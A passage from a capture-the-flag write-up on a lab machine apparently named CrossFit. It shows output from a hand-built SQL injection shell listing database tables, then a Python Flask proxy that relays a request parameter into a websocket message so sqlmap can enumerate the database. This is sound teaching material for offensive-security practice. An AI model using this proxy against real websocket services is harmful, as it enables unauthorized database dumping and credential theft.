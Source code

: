 Running them works as expected:

```

injection> tables crossfit
membership_plans
injection> tables employees
employees
password_reset

```

It would be easy to add commands to list columns in a given table and to dump rows from the table as well.

#### sqlmap + flask

An alternative to doing the SQL injections manually would be to use the power of something like `sqlpmap` to enumerate this database. As of the time of this post, there isn’t a way to target a websocket connection in `sqlmap`. I’ll write a simple Flask webserver that will get a request with a single parameter, and use that to make the websocket connection with that parameter as the injection. This allows `sqlmap` to see a standard HTTP server, but then it does the websockets injection.

```

#!/usr/bin/env python3

import json
import signal
import websocket
from flask import *

app = Flask(__name__)

@app.route("/")
def index():
    ws = websocket.create_connection('ws://gym.crossfit.htb/ws/')
    data = ws.recv()
    token = json.loads(data)['token']
    params = request.args['params']
    ws.send(f'{{"message":"available","params":"{params}", "token": "{token}"}}')
    data = ws.recv()
    return json.loads(data)['debug']

if __name__ == "__main__":
    app.run(debug=True)

```

This will wait for a web request to `/`, and then initiate the websocket connection. It will read the token, and then get the `params` parameter from the request. Now it will send the injection over the websocket with the valid token and the `params` set to the request parameter input, and return the debug part (where the injection is). I’ll load the string to an Python object using `json.loads`, and then pull the `debug` part to return.
